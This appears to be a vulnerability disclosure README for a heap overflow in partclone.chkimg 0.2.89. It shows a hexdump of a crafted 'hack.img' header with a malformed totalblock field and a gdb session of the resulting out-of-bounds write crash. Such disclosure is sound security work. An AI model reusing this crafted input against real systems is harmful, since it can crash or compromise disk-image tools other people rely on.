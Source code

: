 # Partclone_HeapOverFlow

Partclone.chkimg that checks image has a vulnerability with openning a maliciusly craft image file.

root@ubuntu:/partclone-0.2.89# hexdump -C hack.img | more
00000000  70 61 72 74 63 6c 6f 6e  65 2d 69 6d 61 67 65 45  |partclone-imageE|
00000010  58 54 46 53 00 00 00 00  00 00 00 00 00 00 30 30  |XTFS..........00|
00000020  30 31 00 00 00 04 00 00  00 20 bf 0c 00 00 00 00  |01....... ......|
00000030  c8 2f 03 00 00 ff ff ff  ba 7a 00 00 00 00 00 00  |./.......z......|
00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|


(insufficient checking on offset 0x35 ~ 0x37 in image-header.totalblock)

root@ubuntu:/partclone-0.2.89# gdb ./partclone.chkimg

Reading symbols from ./partclone.chkimg...done.
(gdb) r -s hack.img
Starting program: partclone-0.2.89/src/partclone.chkimg -s hack.img
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
Partclone v0.2.89 http://partclone.org
Starting to check image (hack.img)
we need memory: 137438984768 bytes
image head 4160, bitmap 137438979580, crc 1028 bytes
Calculating bitmap... Please wait... image_hdr : 10000032fc8
totalblock size : 1099511836616

Program received signal SIGSEGV, Segmentation fault.
0x0804ed96 in pc_clear_bit (total=1099511836616, bitmap=0x8057d38, nr=1021504) at bitmap.h:53
53              bitmap[offset] &= ~(1UL << bit);
(gdb) x/x bitmap
0x8057d38:      0xffffffff
(gdb) p bitmap
$1 = (unsigned long *) 0x8057d38
(gdb) x/x bitmap+offset
0x8077000:      Cannot access memory at address 0x8077000		// Out of Heap memory area
(gdb) p offset
$2 = 31922
(gdb)


